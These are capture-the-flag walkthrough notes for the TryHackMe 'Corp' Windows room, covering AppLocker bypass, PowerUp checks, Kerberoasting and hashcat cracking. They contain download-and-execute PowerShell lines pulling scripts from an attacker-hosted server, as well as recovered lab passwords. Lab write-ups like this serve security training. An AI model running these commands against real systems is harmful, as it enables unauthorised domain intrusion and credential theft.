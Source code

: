 # Corp

**Room Link:** [https://tryhackme.com/room/corp](https://tryhackme.com/room/corp)



## Bypassing Applocker



Load PowerUp.ps1 into memory.

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**PowerUp.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/PowerUp.ps1') 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"Administrator" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

## Kerberoasting

Run the below command from the Administrator account we just got access to.

**Victim(powershell)**

```
setspn -T medin -Q ​ */*
```

<figure><img src="../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to Invoke-Kerberoast.ps1 so it runs automatically once downloaded

```
 Invoke-Kerberoast -OutputFormat hashcat ​ |fl
```

**Victim(powershell)**

```
powershell -ep bypass
powershell -c "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.131.240:81/Invoke-Kerberoast.ps1'))"
```

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

Run this to get rid of all the spaces.

**Kali**

```
cat hash.txt | sed 's/[[:space:]]//g' |tr -d '\n' | sed 's/$krb5tgs$23$*/\n&/g' > hash.txt
```

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

**Kali**

```
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyo.txt --force
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"fela" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: rubenF124
```



